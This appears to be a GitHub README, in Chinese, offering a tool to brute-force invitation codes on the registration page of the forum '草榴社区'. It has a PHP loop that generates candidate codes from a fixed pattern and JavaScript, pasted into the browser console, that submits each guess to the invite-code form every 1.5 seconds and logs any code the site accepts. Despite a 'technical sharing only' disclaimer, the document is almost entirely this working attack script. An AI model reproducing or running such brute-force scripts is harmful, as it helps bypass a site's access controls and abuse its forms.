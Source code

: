 # 草榴社区 全自动检测邀请码

##(仅做技术分享，切勿用于非法用途，违者自负)

进入*/register.php

F12--切换至console标签页

根据需要修改arr数组内容的值（可以用代码自动生成）

给出php自动生成代码：
```php
for($i=65;$i<91;$i++){
    $a1=strtolower(chr($i));//输出小写字母
    //echo $a1;
    for($j=65;$j<91;$j++){
        $a2=strtolower(chr($j));//输出小写字母
        //echo $a1;
        for($k=65;$k<91;$k++){
            $a3=strtolower(chr($k));//输出小写字母
            echo '"'.'fc7'.$a1.'893440'.$a2.'0'.$a3.'4a0'.'",';
        }
    }
}
//0-9数字为 $z=48;$z<58;$z++
```
修改检测速率：
修改setInterval函数的参数：1500（每1.5秒检测一个邀请码）
可根据需要调整检测速率



```javascript
var arr=new Array("fc7a893440a0a4a0","fc7a893440a0b4a0","fc7a893440a0c4a0");
function checkarr(i){
    //console.log(arr[i]);
	document.checkForm_invcode.reginvcode.value = arr[i];
	document.checkForm_invcode.submit();
};
var j=0;
setInterval(function(){
	j=j+1;
	checkarr(j);
	if(document.getElementById("check_info_invcode").innerHTML=="<span class='sgreen'>恭喜您，您可以使用這個邀請碼註冊！</span>"){
            console.log("可用邀请码");
    }
},1500);
```
